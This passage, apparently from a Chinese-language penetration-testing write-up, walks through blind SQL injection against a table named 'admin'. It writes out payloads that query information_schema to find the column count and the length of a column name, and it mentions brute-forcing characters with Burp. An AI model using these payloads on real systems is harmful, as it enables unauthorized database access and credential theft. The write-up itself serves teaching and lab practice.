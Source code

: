 猜解字段数：`t%' and (select count(column_name)  from information_schema.columns where table_name='admin')=3 %23`<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1615366172547.png)

字段数为：3

逐个对三个字段进行猜解爆破

判断第一个字段长度 `t%' and (select length(concat(column_name))  from information_schema.columns where table_name='admin' limit 0,1)=8%23` <br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1615367089407.png)

第一个字段长度为 8 ，然后使用 Burp 进行爆破相对应的字符<br>